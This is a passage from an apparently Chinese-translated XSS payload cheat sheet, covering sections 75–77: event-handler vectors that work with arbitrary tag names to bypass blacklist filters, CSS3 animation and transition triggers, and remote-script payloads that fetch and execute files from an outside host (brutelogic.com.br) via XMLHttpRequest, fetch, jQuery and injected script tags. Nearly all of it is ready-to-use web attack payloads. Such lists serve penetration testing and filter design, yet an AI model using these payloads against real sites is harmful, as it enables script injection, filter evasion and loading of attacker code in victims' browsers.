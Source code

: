 #### 0x04利用

##### 75.Agnostic Event Handlers Vectors – Native Script Based (未知事件处理程序向量-基于本机脚本)

```
以下带有事件处理程序的payload，可以与任意标记名一起使用，这有助于绕过黑名单检测。它们需要在注入之后在页面中加载一些脚本。请记住，在下面的处理程序中使用诸如"<b"之类的现有标记名,可能是在某些情况下触发xss的唯一方法。

<x onafterscriptexecute=alert(1)>
<x onbeforescriptexecute=alert(1)>
```

##### 76.Agnostic Event Handlers Vectors – CSS3 Based (未知事件处理程序向量——基于CSS3) 

```
以下带有带有事件处理程序的向量，可以与任意标记名一起使用，这有助于绕过黑名单。它们需要<style>标签,或使用<link>标签导入样式表。最后 四个payload只适用于火狐。

<x onanimatiοnend=alert(1)><style>x{animation:s}@keyframes s{}
<x onanimationstart=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimatiοnend=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimationstart=alert(1)><style>x{animation:s}@keyframes s{}
<x ontransitiοnend=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionrun=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionstart=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitioncancel=alert(1)><style>*{transition:color 1s}*:hover{color:red}
```

##### 77.Remote Script Call (远程脚本调用)

```
以下payload用于当需要调用外部脚本,但XSS向量是基于web应用处理程序的脚本时使用(如<svg οnlοad=)或通过javascript注入  "brutelogic.com.br"域和HTML,js文件为例。如果以某种方式过滤">"，请将"r=>"或"w=>"替换为 "function()"。

=> HTML-based
(response must be HTML with an Access-Control-Allow-Origin (CORS) header)
"var x=new XMLHttpRequest();x.open('GET','//brutelogic.com.br/0.php');x.send();
x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"
fetch('//brutelogic.com.br/0.php').then(r=>{r.text().then(w=>{write(w)})})

(with fully loaded JQuery library)
$.get('//brutelogic.com.br/0.php',r=>{write(r)})

=> Javascript-based
(response must be javascript)
with(document)body.appendChild(createElement('script')).src='//brutelogic.com.br/2.js'

(with fully loaded JQuery library)
$.getScript('//brutelogic.com.br/2.js')
(CORS and js extension required)
import('//domain/file')
```
